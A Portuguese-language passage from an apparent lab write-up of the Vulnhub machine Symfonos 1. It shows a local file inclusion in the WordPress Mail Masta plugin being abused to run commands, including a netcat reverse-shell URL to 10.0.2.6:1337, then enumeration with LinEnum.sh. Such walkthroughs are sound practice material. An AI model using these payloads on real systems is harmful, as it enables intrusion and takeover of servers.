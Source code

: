 Conforme figura acima, nosso envio foi um sucesso.

Agora, para verificar se tudo está conforme o planejado, acessamos a URL usando o seguinte comando:

```
[http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id](http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id)
```

Após observar o sucesso do comando supracitado, chegou o momento de tentarmos uma shell reversa através do seguinte comando:

```
[http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc 10.0.2.6 1337 -e /bin/sh](http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc%2010.0.2.6%201337%20-e%20/bin/sh)
```

> Lembrando de utilizar o `nc` para escutar na porta destino, no caso, 1337.
> 

### Shell Obtido

![shell obtido](/assets/img/Vulnhub/symfonos1/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a *shell* na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios.

Também, fiz o download do arquivo *[LinEnum.sh](http://linenum.sh/)*, usando um servidor simples em Python na minha máquina. Isso permitiu realizar uma enumeração automatizada de alguns pontos interessantes da máquina alvo.

![linenum.sh](/assets/img/Vulnhub/symfonos1/linenumsh.png)

